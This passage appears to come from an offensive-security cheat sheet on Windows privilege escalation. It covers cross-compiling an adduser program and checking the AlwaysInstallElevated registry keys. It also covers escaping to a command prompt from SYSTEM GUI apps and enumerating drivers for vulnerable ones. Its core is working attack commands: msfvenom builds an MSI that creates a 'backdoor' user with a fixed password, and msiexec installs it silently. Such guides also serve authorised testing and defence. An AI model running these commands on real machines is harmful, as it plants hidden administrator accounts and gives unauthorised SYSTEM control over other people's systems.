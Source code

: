 To cross compile a program from Kali, use the following command.

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - AlwaysInstallElevated

Check if these registry values are set to "1".

```powershell
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

$ Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
$ Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
```

Then create an MSI package and install it.

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

Technique also available in :
* Metasploit : `exploit/windows/local/always_install_elevated`
* PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`


## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

## EoP - Evaluating Vulnerable Drivers
Look for vuln drivers loaded, we often don't spend enough time looking at this:

```powershell
# https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery

PS C:\Users\Swissky> driverquery.exe /fo table
Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>

PS C:\Users\Swissky> DriverQuery.exe --no-msft
[+] Enumerating driver services...
[+] Checking file signatures...
Citrix USB Filter Driver
    Service Name: ctxusbm
    Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
    Version: 14.11.0.138
    Creation Time (UTC): 17/05/2018 01:20:50
```